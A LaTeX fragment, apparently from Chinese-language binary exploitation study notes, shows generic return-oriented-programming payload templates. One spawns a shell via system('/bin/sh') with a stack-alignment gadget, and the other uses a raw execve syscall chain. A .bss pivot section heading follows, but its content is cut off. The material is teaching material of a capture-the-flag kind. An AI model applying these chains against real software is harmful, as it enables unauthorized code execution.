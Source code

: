 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{payload  }\OperatorTok{=} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(RET)            }\CommentTok{\# 對齊用（movaps）}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RDI)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(binsh)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(SYSTEM)}
\end{Highlighting}
\end{Shaded}

\begin{quote}
對齊用的 \texttt{ret} 放在 \texttt{POP\_\allowbreak{}RDI} 之前或 \texttt{SYSTEM}
之前\textbf{都可以} ------ 效果一樣，重點是「整條鏈在 \texttt{rsp}
上總共多走 8 bytes」， 讓 \texttt{system} 開始執行時
\texttt{rsp\ \allowbreak{}\%\allowbreak{}\ \allowbreak{}16\ \allowbreak{}==\ \allowbreak{}8}。不對齊就會在 \texttt{movaps} 的地方
SIGSEGV。 （原理見 \texttt{00\_\allowbreak{}基礎知識} 第 10.4 節）
\end{quote}

\paragraph{\texorpdfstring{5.2 \texttt{execve("/\allowbreak{}bin/\allowbreak{}sh",\allowbreak{}\ \allowbreak{}0,\allowbreak{}\ \allowbreak{}0)}（純
syscall）}{5.2 execve("/bin/sh", 0, 0)（純 syscall）}}\label{execvebinsh-0-0ux7d14-syscall}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{payload  }\OperatorTok{=} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*}\NormalTok{ offset}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RDI) }\OperatorTok{+}\NormalTok{ p64(binsh)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RSI) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RDX) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RAX) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{59}\NormalTok{)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(SYSCALL\_RET)}
\end{Highlighting}
\end{Shaded}

\paragraph{\texorpdfstring{5.3 \texttt{read} 到已知可寫區（.bss）再
pivot}{5.3 read 到已知可寫區（.bss）再 pivot}}\label{read-ux5230ux5df2ux77e5ux53efux5bebux5340.bssux518d-pivot}
\end{document}
